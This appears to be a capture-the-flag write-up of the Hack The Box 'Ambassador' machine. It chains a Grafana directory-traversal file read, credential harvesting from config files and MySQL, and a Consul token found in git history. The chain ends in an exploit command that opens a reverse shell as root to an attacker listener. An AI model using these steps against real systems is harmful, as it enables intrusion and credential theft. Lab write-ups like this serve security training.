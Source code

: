 # Ambassador

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.228.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 05:49 EDT
Nmap scan report for 10.129.228.56
Host is up (0.015s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
3306/tcp open  mysql
```

### Port 80

The only interesting thing here is the mentioning of the user `developer`:

<figure><img src="../../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

Other than that, there was not much here.

### Grafana LFI --> Creds

Port 3000 was hosting a Grafana instance.

<figure><img src="../../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

This version of Grafana is vulnerable to public exploits:

```
$ searchsploit grafana                
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Grafana 7.0.1 - Denial of Service (PoC)                    | linux/dos/48638.sh
Grafana 8.3.0 - Directory Traversal and Arbitrary File Rea | multiple/webapps/50581.py
----------------------------------------------------------- ---------------------------------
```

We can confirm that this works:

<figure><img src="../../../.gitbook/assets/image (77) (5).png" alt=""><figcaption></figcaption></figure>

Grafana stores a configuration file at `/etc/grafana/grafana.ini`, so let's start there. We can find some passwords within that:

```
# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```

With this, we can login to the admin panel:

<figure><img src="../../../.gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

Within the configuration files, we can find a `mysql.yaml` file.

<figure><img src="../../../.gitbook/assets/image (72) (5).png" alt=""><figcaption></figcaption></figure>

We can't edit it, and there wasn't any credentials in it:

<figure><img src="../../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

However, maybe we can use the LFI to read this file on the machine itself.&#x20;

{% embed url="https://grafana.com/docs/grafana/latest/administration/provisioning/" %}

Based on this documentation, it is located in`/etc/grafana/provisioning/datasources`.&#x20;

<figure><img src="../../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

Using these creds, we can login to the MySQL database on the machine:

```
$ mysql -u grafana -h 10.129.228.56 -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

Then, we can use the `whackywidget` database to find the password for `developer`.&#x20;

```
MySQL [whackywidget]> select * from users\g
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+

$ echo YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== | base64 -d
anEnglishManInNewYork027468
```

We can then login as `developer` via `ssh` using this password.

## Privilege Escalation

### Consul Token --> RCE

I was wondering where that `whackywidget` dataabse came from and why it had the password for the user instead of the `grafana` database. Within the `/opt` directory, we can find some additional folders:

```
developer@ambassador:/opt$ ll
total 16
drwxr-xr-x  4 root   root   4096 Sep  1  2022 ./
drwxr-xr-x 20 root   root   4096 Sep 15  2022 ../
drwxr-xr-x  4 consul consul 4096 Mar 13  2022 consul/
drwxrwxr-x  5 root   root   4096 Mar 13  2022 my-app/

developer@ambassador:/opt/my-app$ ls
env  whackywidget
```

`consul` is an application used to configure and spin up applications with databases:

{% embed url="https://github.com/hashicorp/consul" %}

The application on the machine starts on port 8500, and we can also find out the version running:

```
developer@ambassador:/opt/my-app/env$ netstat -tulon
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       Timer
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      off (0.00/0/0)

developer@ambassador:/opt/my-app/env$ consul --version
Consul v1.13.2
```

There are some exploits for this:

{% embed url="https://github.com/owalid/consul-rce" %}

However, we first need to find the token within the files. Within the `/opt/my-app` directory, there's a `.git` repository.

```
developer@ambassador:/opt/my-app$ ls -la
total 24
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxr-xr-x 4 root root 4096 Sep  1  2022 ..
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget
```

If we check the logs, we can find the token:

```
developer@ambassador:/opt/my-app$ git log -p -2
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```

Afterwards, just run the PoC above on the machine itself.&#x20;

```bash
developer@ambassador:~$ python3 exploit_consul.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.14.13 --lport 443 --token bb03b43b-1d81-d62b-24b5-39540ee469b5
```

This would give us a reverse shell as `root`.

<figure><img src="../../../.gitbook/assets/image (75) (7).png" alt=""><figcaption></figcaption></figure>
